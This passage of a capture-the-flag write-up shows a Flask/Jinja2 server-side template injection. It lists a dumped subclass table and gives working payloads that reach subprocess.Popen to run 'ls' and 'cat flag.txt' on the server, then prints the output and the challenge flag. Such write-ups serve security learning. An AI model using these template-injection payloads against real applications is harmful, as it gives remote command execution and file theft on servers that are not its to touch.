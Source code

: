 <class 'werkzeug.formparser.FormDataParser'>, <class 'werkzeug.formparser.MultiPartParser'>, <class 'werkzeug.user_agent.UserAgent'>, <class 'werkzeug.sansio.request.Request'>, <class 'werkzeug.sansio.response.Response'>, <class 'werkzeug.wrappers.response.ResponseStream'>, <class 'werkzeug.test.EnvironBuilder'>, <class 'werkzeug.test.Client'>, <class 'werkzeug.test.Cookie'>, <class 'werkzeug.local.Local'>, <class 'werkzeug.local.LocalManager'>, <class 'werkzeug.local._ProxyLookup'>, <class 'flask.globals._FakeStack'>, <class 'decimal.Decimal'>, <class 'decimal.Context'>, <class 'decimal.SignalDictMixin'>, <class 'decimal.ContextManager'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, <class 'uuid.UUID'>, <class 'flask.json.provider.JSONProvider'>, <class 'gettext.NullTranslations'>, <class 'click._compat._FixupStream'>, <class 'click._compat._AtomicFile'>, <class 'click.utils.LazyFile'>, <class 'click.utils.KeepOpenFile'>, <class 'click.utils.PacifyFlushWrapper'>, <class 'click.types.ParamType'>, <class 'click.parser.Option'>, <class 'click.parser.Argument'>, <class 'click.parser.ParsingState'>, <class 'click.parser.OptionParser'>, <class 'click.formatting.HelpFormatter'>, <class 'click.core.Context'>, <class 'click.core.BaseCommand'>, <class 'click.core.Parameter'>, <class 'werkzeug.routing.converters.BaseConverter'>, <class 'difflib.SequenceMatcher'>, <class 'difflib.Differ'>, <class 'difflib.HtmlDiff'>, <class 'pprint._safe_key'>, <class 'pprint.PrettyPrinter'>, <class 'werkzeug.routing.rules.RulePart'>, <class 'werkzeug.routing.rules.RuleFactory'>, <class 'werkzeug.routing.rules.RuleTemplate'>, <class 'werkzeug.routing.matcher.State'>, <class 'werkzeug.routing.matcher.StateMachineMatcher'>, <class 'werkzeug.routing.map.Map'>, <class 'werkzeug.routing.map.MapAdapter'>, <class 'flask.signals.Namespace'>, <class 'flask.signals._FakeSignal'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.config.ConfigAttribute'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class 'pathlib._Flavour'>, <class 'pathlib._Accessor'>, <class 'pathlib._Selector'>, <class 'pathlib._TerminatingSelector'>, <class 'pathlib.PurePath'>, <class 'flask.scaffold.Scaffold'>, <class 'itsdangerous.signer.SigningAlgorithm'>, <class 'itsdangerous.signer.Signer'>, <class 'itsdangerous.serializer.Serializer'>, <class 'itsdangerous._json._CompactJSON'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'unicodedata.UCD'>]
{% endccb %}

We now want to use the `Popen` class to get shell access to the machine so we can find the flag and get it's contents. From the above dump of text, the `<class 'subprocess.Popen'>` class is in `''.__class__.__mro__[1].__subclasses__()[392]`.

## Use `Popen`

Let's first run `ls` to see if the flag is in the local directory:

```py
{{''.__class__.__mro__[1].__subclasses__()[392]('ls', shell=True, stdout=-1).communicate()}}
```

We get:

```py
(b'Dockerfile\napp.py\nflag.txt\nrequirements.txt\nstatic\ntemplates\n', None)
```

We see a `flag.txt`! So we can simply `cat flag.txt` as such:

```py
{{''.__class__.__mro__[1].__subclasses__()[392]('cat flag.txt', shell=True, stdout=-1).communicate()}}
```

and we get the flag:

```py
(b'blahaj{s3cURe_53rv1CEs_73chN0lOg1e5_1Nc.}', None)
```

`blahaj{s3cURe_53rv1CEs_73chN0lOg1e5_1Nc.}`